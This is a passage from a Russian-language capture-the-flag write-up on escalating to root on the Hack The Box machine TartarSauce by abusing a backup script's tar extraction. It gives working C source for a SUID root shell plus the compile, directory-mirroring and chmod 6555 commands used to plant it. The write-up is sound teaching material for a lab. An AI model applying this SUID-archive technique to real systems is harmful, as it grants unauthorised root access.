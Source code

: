 ```text
< Disallow: /webservices/phpmyadmin/
<
---
> e79abdab8b??????????????????????
^C
```

Очевидно, этот способ позволяет лишь читать содержимое файлов, полноценный же шелл мы получим в следующем параграфе.

### Эксплуатация backuperer: SUID Shell
При создании архива tar запоминает идентификаторы владельцев/группы файлов. Из этой особенности вытекает следующая схема эксплуатации backuperer'а:
  1. Создаем .tar.gz архив с скомпилированным на своей Kali-машине от имени root'а SUID-шеллом.
  2. Перебрасываем этот архив на место настоящего бэкапа на машине-жертве.
  3. Ждем момента (полминуты), когда backuperer распакует фейковый архив в процессе проверке целостности. Проверка целостности, в свою очередь, должна вернуть "Истину" (смотрим на [табличку]({{ page.url }}#табличка)), чтобы скрипт не удалил временную папку `/var/tmp/check/var/www/html`, а у нас, таким образом, было около 4,5 минут для активации шелла.
  4. Запускаем шелл и получаем root-сессию.

Теперь по порядку:

1\. Нам понадобится тривиальный SUID-шелл на Си:
```c
// Usage: gcc -m32 -o suid suid.c && ./suid

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
	setreuid(0, 0);
	execve("/bin/bash", NULL, NULL);
	return 0;
}
```

Из вывода `uname -a` мы уже видели, что TartarSauce имеет 32-х битную архитектуру, поэтому компилируем следующим образом:
```text
root@kali:~# gcc -m32 -o suid suid.c
```

Дальше зеркалируем структуру папок оригинального бэкапа (т. к. только в этом случае мы получим `1` от функции `integrity_chk`; опять же — смотрим на [табличку]({{ page.url }}#табличка)) и выставляем setuid-бит на шелл:
```text
root@kali:~# mkdir -p  var/www/html
root@kali:~# cp suid var/www/html
root@kali:~# chmod 6555 var/www/html/suid
root@kali:~# ls -la var/www/html/suid
-r-sr-sr-x 1 root root 15480 Nov  1 16:35 var/www/html/suid
```
